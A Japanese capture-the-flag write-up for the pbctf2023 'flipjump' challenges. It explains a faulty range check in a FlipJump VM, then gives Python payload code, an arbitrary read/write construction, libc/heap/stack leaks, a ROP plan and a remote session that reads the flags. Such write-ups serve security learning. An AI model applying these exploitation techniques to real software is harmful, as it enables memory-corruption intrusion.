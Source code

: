 ```yaml
---
layout: page
title: "pbctf2023 flipjump 1, 1.5, 2"
date: 2023-02-22 00:00:00 -0000
---
```


flipjumpというesolang（https://esolangs.org/wiki/FlipJump）の問題です。

flipjumpはかなり簡単で、`p64((addr << 3) | bit) + p64(next)`という形で、フリップしたい１ビットを`addr`と`bit`で指定し、次の命令の位置を`next`で指定します。これだけです。1命令16バイトです。

この問題はただ命令を処理するだけでなく、謎のゲーム形式になっています。２つのプレイヤーがいて、それぞれのvm上でflipjumpをして、プレイヤー１にロードされた０から１５のランダムな数字を、プレイヤー２が当てると、ゲームをもう一度プレイできます。当てられないとその場でexitが走ります。プレイヤー１とプレイヤー２の間にはvm外で1ビットだけフリップできます。

## flipjump1 (misc)
実装ミスだったようで後に1.5が出ます。プレイヤー１のあと、戻り値が表示されていますので、その値をプレイヤー２で作り直すことができました。miscなので、これを所定の回数繰り返すとフラグが得られます。

## flipjump1.5 (misc)
上記のテクニックは相対アドレスのAARになっているので、これを利用してpwnのflipjump2を触っていたところ、リモートでリークが来ないぞ？→どうやら修正が来ているらしい→その修正は2も来ているらしいとなり、泣きながら再ダウンロードします。

修正後の流れは、プレイヤー１、プレイヤー２、そのあとに戻り値の表示となるので、プレイヤー２はランダム値を当てないといけません。

入力するコードサイズが256より小さいと、変なオーバーフローが起こるので、これを使ってどうにか戻り値が固定になるようにしようとしたり、ランダム値を持つ行を`next`に指定して、ジャンプテーブルで受けるという実装を作ったりしましたが、肝心のランダム値に関する値をプレイヤー２に残すことができずに終わりました。

vm外1ビットフリップ、謎のオーバーフロー、miscであることなどに引きずられ視界から外れていましたが、バグは範囲チェックにいました。

`param_1[1]`はコードサイズにあたりますが、`lVar1_next_index`の最大値の比較が不適切で、負の値が入ります。この問題はこれだけで全部解けます。

```c
    if ((lVar1_next_index < 0) || (param_1[1] <= lVar1_next_index * 2 + 1)) {
      exit(1);
    }
    *(int *)(param_1 + 2) = (int)lVar1_next_index;
```

今回のheapでは、プレイヤー２の隣接上側はプレイヤー１の領域があります。ランダム値もこれでアクセスできるので、後はそこを`next_index`に指定して、飛び先に合わせて値を作り直してあげればよいです。

具体的に、例えばプレイヤー１のランダム値が３だったら、飛び先でプレイヤー２の戻り値を３にするようにflipjumpのコードをセットします。

これにはindexの0から15には、それぞれ処理するアドレスに飛ぶジャンプテーブルを用意して、後ろ側で値を作り直してあげればよいでしょう。vm起動時にはいきなりマイナス方向に飛べないので、一旦後ろの方にジャンプして、index 0を修正してマイナス方向に飛ぶloader部と、リターンアドレスに値を追加することでAARになることが分かっていたので、これを付け加えるfinal部を付け加えて作っておきます。

```python
size = 0x1000                   
loader = 0xc00
final = 0xe00
target = 0xef0
p1ret = 0x7fffffffffffffec
waste = target-1 # garbage flips

def fj(flip_byte, flip_bit, next_idx):
    return flat( flip_byte << 3 | flip_bit, next_idx )

payload = b''
payload += fj(waste, 1, loader >> 4) # will be rewrite to fj(waste, 1, 0x10) by loader

# jump tables except #0
for i in range(1, 0x10):
    payload += fj( waste, 1, 0x10 + i * 0x9)

# re-construct each value [ex. jump from #3 table --> return 3]
# p2ret addr is target + 8
for i in range(0x10):
    for j in range(8):
        if (i >> j) & 1 == 1:
            payload += fj( target+8, j, 0x10 + i * 0x9 + (j+1)*0x1)
        else:
            payload += fj( waste, 0, 0x10 + i * 0x9 + (j+1)*0x1)
    payload += fj( waste, 0, final>>4)
assert(len(payload) < (loader))

# loader: fix table #0 and jump to the value p1ret 
payload = payload.ljust(loader, b'b')
payload += fj(8, 6, (loader>>4) + 0x1) # 0xc0 --> 0x80
payload += fj(8, 7, (loader>>4) + 0x2) # 0x80 --> 0x00
payload += fj(8, 4, p1ret) # 0x00 --> 0x10

# final: do something if you need after reconstruct p1ret
payload = payload.ljust(final, b'c')
#payload += fj(target+0x9, 2, final>>4 + 0x1)
#payload += fj(size-1, 0, final>>4 + 0x2)
payload += fj(size, 0, 0) # this will escape from vm 

payload = payload.ljust(target, b'd')

# keep p2ret clean
payload += fj(target, 0, 0)
payload = payload.ljust(size, b'e')
```

このコードで、loader部に飛んで、index0を直してランダム値に飛んで、ランダム値がnext_indexとなってジャンプテーブルに飛んで、そこから値を再構築するところに飛び、最後にfinal部を通ってうまく作成してくれます。愚直に所定回数やればよいです。

```python
for i in range(0x45):
    r.sendafter(b'length:\n', p64(0x410))
    r.sendafter(b'code:\n', b'a'*0x300+flat(0xee8<<3, 0xbeef) + b'b'*0x100)
    r.sendafter(b'length:\n', p64(size))
    r.sendafter(b'code:\n', payload)
    print(r.sendafter(b'Play again? (Y/N)\n', b'Y'))
```

## flipjump 2
ここではループとvm外フリップを利用してAAR/AAWを構築する必要があります。なので前提として1.5を解けることが必要です。vm外フリップは、プレイヤー１の戻り値に従って動きます。

プレイヤー１の戻り値は、デフォルトはランダム値がセットされ、プレイヤー１のvmが終了した後、`(addr << 3) | bit`として解釈され、該当のビットが反転されます。問題なのは、デフォルトでランダム値なので、ビットの部分がランダムになることです。特にAARは読めるまで待てばよいですが、AAWは、狙って書くのが恐ろしく低い確率になりそうなので、任意に指定できるように変えていきます。

ループを続けるためには元のランダム値は残しておかないといけませんので、近くにコピーし、戻り値のランダム値は消し、任意の値を戻り値にするように書き込みます。

任意の値を入れるためには8*6ビットで48命令は必要で、これはサイズにすると0x300となり、コード構成の都合上何かを小さくする必要がありました。再構築用の部分が愚直に`16 x 8`で0x800使っているので、これを縮めることを考えます。いろいろ解決策がありそうですが、全部まとめて処理しようと考えました。

要するにまず15から飛んで来たら15にしたいので、4ビットフリップします。

```
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

次に14から来たら14にしたいので、1ビットフリップします。

```
# Label 0xe
fj(target, 0, next)
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

次は13です。同じように考えます。

```
# Label 0xd
fj(target, 0, next)
fj(target, 1, next)
# Label 0xe
fj(target, 0, next)
# Label 0xf
fj(target, 0, next)
fj(target, 1, next)
fj(target, 2, next)
fj(target, 3, next)
```

この調子で0まで行くと、テーブルサイズは0x800から0x1d0にまで落ちます。これなら大丈夫そうです。

後は、再構築テーブルにランダム値を消すコードを加えて、final部に任意の値を書くところを追加すれば、AAR/Wが完成します。

exploitパートはかなり単純で、適当にlargebinを作った後は、libc、heap、environをリークして、今回はコントロール可能なmainからのreturnがあるので、ropをおいてそこに飛びます。このAARは読み先を破壊するので、environについては戻す必要がありました。

コードは[こちら](https://github.com/jt00000/ctf.writeup/blob/master/pbctf2023/flipjump/solve.py)

```
[+] Opening connection to flipjump2.chal.perfect.blue on port 1337: Done
    -> base: 0x7fb057939000
    -> heap: 0x556b24656000
    -> stack: 0x7ffe4abacb08
    -> rop_addr: 0x7ffe4abac9e8
[*] Switching to interactive mode
$ ls
flag1
flag2
flipjump
$ cat flag*
pbctf{you_went_ham_peko_81d5f1b3}
pbctf{you_are_a_certified_flip_jumper_de_gozaru}
```

範囲チェックは結構してたんですが、ほかに分かりやすいバグがあるとそっちに目移りしてしまってダメですね。flipjumpのコードを考えるのがおもしろかったです。
